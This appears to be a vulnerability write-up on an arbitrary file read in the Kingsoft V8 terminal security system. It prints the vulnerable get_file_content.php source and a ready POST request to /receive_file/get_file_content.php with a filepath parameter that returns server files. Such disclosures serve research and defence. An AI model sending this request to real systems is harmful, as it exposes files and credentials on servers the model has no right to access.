 # Kingsoft V8 terminal security system get_file_content.php arbitrary file reading vulnerability

## Vulnerability Description

Kingsoft V8 terminal security system There is a vulnerability to read any file on the server. The attacker can download any file on the server through the vulnerability.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Kingsoft V8 terminal security system</span>

## Network surveying and mapping



## Vulnerability reappears

Login page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1630284811305-903a9d36-0fe4-46b2-bc56-92f81c4c433c.png)

Files with vulnerability`/Console/receive_file/get_file_content.php`

```php {2-5}
<?php  
  if(stripos($_POST['filepath'],"..") !== false) {
    echo 'no file founggd';
    exit();
  }
  ini_set("open_basedir", "../");
  $file_path = '../'.iconv("utf-8","gb2312",$_POST['filepath']);
  if(!file_exists($file_path)){
    echo 'no file founggd';
    exit();
  }  

  $fp=fopen($file_path,"r");  
  $file_size=filesize($file_path); 

  $buffer=5024;  
  $file_count=0;  

  while(!feof($fp) && $file_count<$file_size){  
    $file_con=fread($fp,$buffer);  
    $file_count+=$buffer;  
    echo $file_con;  
  }  
  fclose($fp);  
?>
```

There is no filtering in the file. You can download any file through the filepaht parameter.

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Because it cannot appear .. , you can only read files in the web directory</span>

```plain
POST /receive_file/get_file_content.php

filepath=login.php
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1630292700432-afde937f-bbe7-4493-a1e5-0cbb50dae5e7.png)



## 